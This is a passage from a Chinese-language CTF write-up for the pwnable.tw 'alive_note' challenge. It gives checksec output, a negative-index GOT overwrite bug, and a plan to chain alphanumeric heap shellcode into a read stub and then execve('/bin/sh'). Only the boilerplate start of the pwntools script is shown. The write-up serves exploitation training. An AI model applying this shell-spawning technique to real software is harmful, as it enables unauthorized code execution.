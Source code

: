 ## 检查

```
$ file alive_note 
alive_note: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=7202bc4e6b3c1df58cbac86ca55f98bbf0f99a6e, not stripped
$ checksec alive_note 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

32位程序，未去符号表，同时只开了canary保护

## 分析

程序逻辑很简单，可以写名字，不能超过8个，用堆块存储，展示名字，删除名字，最多能有十个

## 漏洞点

程序的漏洞点在于读取序号时没有对负数进行限制，所以我们可以直接溢出到got表上

## 利用

很明显我们需要写shellcode，但是题目做了限制，输入内容只能是空格、数字、大小写字母（没搞懂__ctype_b_loc是啥check，所以是试出来的），而且shellcode是分布在堆上的，且每块只有八个字节，这就给利用带来了很大的麻烦

因为heap内存区域有执行权限，故这里我们使用的方式是先构造调用sys_read的shellcode，再借助它往堆上读执行execve("/bin/sh",NULL,NULL)来get shell

另外需要注意的是由于每块只有八个字节，故我们需要使用jne指令构造跳转来连接多个块

我们在free函数的got表处来构造，首先我们需要知道程序运行到shellcode时的寄存器值

(0x0804a014 - 0x0804a080) /4 = -27

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 1
if debug:
	elf = ELF("./alive_note")
	libc = ELF("./libc_64.so.6")
	io = process(elf.path,env={"LD_PRELOAD" : libc.path})
else:
	elf = ELF("./alive_note")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10300)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
```